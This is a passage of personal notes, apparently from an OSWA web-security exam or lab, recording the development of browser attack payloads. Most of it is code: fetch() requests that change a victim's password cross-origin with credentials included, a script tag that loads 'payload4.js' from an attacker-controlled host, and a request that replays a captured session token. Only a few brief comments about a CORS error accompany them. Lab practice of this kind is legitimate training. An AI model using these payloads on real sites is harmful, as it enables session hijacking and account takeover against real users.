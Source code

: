 ```bash
  "mode": "cors",
  "credentials": "include"
});
```


payload 4

```bash
fetch("https://192.168.62.62:8443/api/me/password", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
  },
  body: "password=testtest",
  credentials: "include"
});
```

```bash
<script src="http://192.168.49.62:8000/payload4.js"></script>
```

```bash
fetch("https://localhost:8443/api/me/password", {
  "headers": {
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
  },
  "body": "password=testtesttest",
  "method": "POST",
  "credentials": "include"
});
```
attempted using `payload4` gt a `MissingAllowOriginHeader`
![[ss-20250919-OSWA-Exam-ShareNotez-pic16.png]]
working header  - going to test with the `sessiontoken` 
```bash
fetch("https://192.168.62.62:8443/api/me/password", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active",
    "cookie": "sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6ImZhbHNlIiwiZXhwIjoxNzU4MzIwODg0LCJ1c2VySWQiOiIyMGY4YjExNy1kMzU0LTQ4MGYtODI3MC1kZWFmMGUwYmI2YmYiLCJ1c2VybmFtZSI6InRlc3QifQ.wjyseL8YdCqwYHSM33QPiVGUlG1bvu-D7Sm5CWTjBzw",
    "Referer": "http://192.168.62.62/"
  },
  "body": "password=test",
  "method": "POST"
});
```
changing to localhost as `payload6.js`
```bash
fetch("https://localhost:8443/api/me/password", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
```